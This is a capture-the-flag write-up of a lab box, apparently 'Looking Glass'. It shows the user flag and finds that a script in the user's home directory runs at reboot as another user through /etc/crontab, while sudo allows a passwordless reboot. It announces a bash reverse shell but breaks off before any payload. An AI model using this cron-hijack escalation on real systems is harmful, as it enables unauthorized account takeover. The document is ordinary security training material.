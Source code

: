![key](imgs/key.png)
> We , got our key and our secret , The secret Give us the credentials to the first user **jabberwock**
```
jabberwock@looking-glass:~$ cat user.txt 
}hidden{mht
```
> here we notice a **twasBrillig.sh** executable file . 
```
jabberwock@looking-glass:~$ cat twasBrillig.sh 
wall $(cat /home/jabberwock/poem.txt)
jabberwock@looking-glass:~$ 
```
> if we check /etc/crontab we notice that the file execute at reboot as **tweedledum** user lets do a reverse shell then using *bash* ^^
```
jabberwock@looking-glass:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
@reboot tweedledum bash /home/jabberwock/twasBrillig.sh

```
> Lucy for us we could use reboot as a root  
```
jabberwock@looking-glass:~$ sudo -l
Matching Defaults entries for jabberwock on looking-glass:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jabberwock may run the following commands on looking-glass:
    (root) NOPASSWD: /sbin/reboot

```
> I'll use this for taking reverse shell: